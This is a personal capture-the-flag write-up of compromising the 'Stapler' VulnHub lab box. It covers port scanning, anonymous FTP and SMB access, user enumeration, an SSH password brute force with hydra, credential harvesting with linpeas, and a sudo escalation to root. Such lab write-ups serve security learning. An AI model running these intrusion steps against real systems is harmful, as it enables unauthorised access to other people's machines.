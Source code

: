 # Pre-Engagement
I downloaded the box from VulnHub, and created a virtual machine giving it a
bridged adapter. The machine's IP address has been aliased to `stapler` within
my `/etc/hosts` file. However, you may find different IPs referring to `stapler`
throughout the writeup. This because sometimes I'm doing the machine from the
Proving Grounds website as well. It could be because I'm a mess.

# Reconnaissance
Going with the ritual, I use `nmap` to scan all of the ports.
`nmap -p- -T4 -oN nmap/initial stapler`

The scan reveals the following.
```
Host is up (0.16s latency).
Not shown: 65523 filtered tcp ports (no-response)
PORT      STATE  SERVICE
20/tcp    closed ftp-data
21/tcp    open   ftp
22/tcp    open   ssh
53/tcp    open   domain
80/tcp    open   http
123/tcp   closed ntp
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn
666/tcp   open   doom
3306/tcp  open   mysql
12380/tcp open   unknown
```
I looked into some of those ports in detail.
`nmap -p 12380,80,3306,666,21 -sC -sV -oN nmap/detail stapler`
```
Host is up (0.0013s latency).

PORT      STATE SERVICE    VERSION
21/tcp    open  ftp        vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
80/tcp    open  http       PHP cli server 5.5 or later
|_http-title: 404 Not Found
666/tcp   open  tcpwrapped
3306/tcp  open  mysql      MySQL 5.7.12-0ubuntu1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.12-0ubuntu1
|   Thread ID: 22
|   Capabilities flags: 63487
|   Some Capabilities: SupportsTransactions, IgnoreSigpipes, Speaks41ProtocolOld, LongPassword, SupportsCompression, FoundRows, Support41Auth, LongColumnFlag, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, ODBCClient, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, InteractiveClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: \x08\x04%\x170O\x1A\x06
| 2c\x0Ej#8\x17eCO|
|_  Auth Plugin Name: mysql_native_password
12380/tcp open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tim, we need to-do better next year for Initech
```

# Vulnerability Analysis
We notice that anonymous login is allowed for ftp. I tried logging in.
```
❯ ftp stapler
Connected to stapler.
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
Name (stapler:pratik): anonymous
331 Please specify the password.
Password:
230 Login successful.
Using binary mode to transfer files.
ftp> ls
-rw-r--r--    1 0        0             107 Jun 03  2016 note
ftp> get note
150 Opening BINARY mode data connection for note (107 bytes).
226 Transfer complete.
107 bytes received in 0.000396 seconds (264 kbytes/s)
```
There was nothing except the `note` file with the contents:
```
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
```
There have been names all over the place, though. So, that's interesting.

I tried connecting to the `doom` service at port 666:
```
nc stapler 666
```
And that returned some binary data. I save it to a file and do `file` on it:
```
❯ nc stapler 666 > doom
❯ file doom
doom: Zip archive data, at least v2.0 to extract, compression method=deflate
```

A zip archive? Hmmm... Tried unzipping it, it inflated a `message2.jpg` image.

![message2.jpg](./message2.jpg)

I had also noticed some SMB ports.
```
❮ smbclient -L //stapler/
Password for [WORKGROUP\pratik]:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	kathy           Disk      Fred, What are we doing here?
	tmp             Disk      All temporary files should be stored here
	IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
```
And apparently the shares require no password to access. So I mounted the
`kathy` share onto my local system. I had to give the `-o vers=1.0` because
without it, I'd get an error.
```
❯ doas mount -t cifs -o vers=1.0 //stapler/kathy/ /mnt
❮ cd /mnt

❯ ls -R
 backup/   kathy_stuff/

./backup:
 vsftpd.conf   wordpress-4.tar.gz

./kathy_stuff:
 todo-list.txt
```
Nothing inside, really.

# Exploitation
I wanted to see if we could do anything about the SMB service. I looked up on
the internet to see how I could enumerate on it. I came across [this](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/) guide
and basically just followed some of the steps. I tried `nmap`'s scripts and they
didn't give me any interesting results neither did `metasploit`. However, near
the end there was the tool `enum4linux`. I tried it out on the machine and it
gave me a bunch of interesting information.
```
❯ enum4linux stapler > enum4linux/scan
```
At the end of its output, we see some usernames.
![enum4linux](./enum4linux.png)
I decided to put those usernames into a `users.txt` file and load up `hydra`
with the same file as usernames as well as password list.
```
hydra -L users.txt -P users.txt stapler ssh
```
And it got a successful login after a while for the user `SHayslett` with the
same password. Logging in with those credentials allowed me in to the machine.
The first thing I needed to do now was find the local flag. Having been
experienced enough with this, I knew that the flag is located inside a
`local.txt` file. I used `find` to search the entire file system for that file.
```
SHayslett@red:~$ find / -type f -name "local.txt" 2> /dev/null
/home/local.txt
```
And the local flag was discovered.

# Privilege Escalation
I downloaded the `linpeas.sh` script onto the machine and let it run for a
while. Looking at its output conveniently got me some credentials.

![linpeas](./linpeas.png)

I tried my luck with the first user, but it wasn't any special. Logging in as
`peter`, though revealed something. There was a file named `.sudo-as-admin-successful`
which was enough of a hint for me to try `sudo -l` and well, I could run any
command as root. So what I did then is an obvious step: `sudo su -`. That got me
to the root flag.

![root flag](./proof.png)
